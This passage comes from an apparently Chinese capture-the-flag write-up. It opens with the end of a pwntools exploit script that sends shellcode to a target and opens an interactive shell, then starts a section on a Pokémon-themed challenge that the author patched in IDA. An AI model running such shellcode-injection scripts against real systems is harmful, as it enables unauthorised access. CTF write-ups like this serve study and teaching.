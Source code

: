 ```
print('[-]: send shellcode')
p.sendline(shellcode)

with open('../hello', 'rb') as f:
    hello = f.read()

p.send(hello)

p.interactive()
```

# 0x05 catchGPA
做到这题，感觉爷青回，小时候的口袋妖怪，都是回忆。  

拖到ida里，分析了下，先加球（我不知道啥经典作弊码的）！  
![](image/patch1.PNG)

然后用101改了带师球的数量，笑死。  
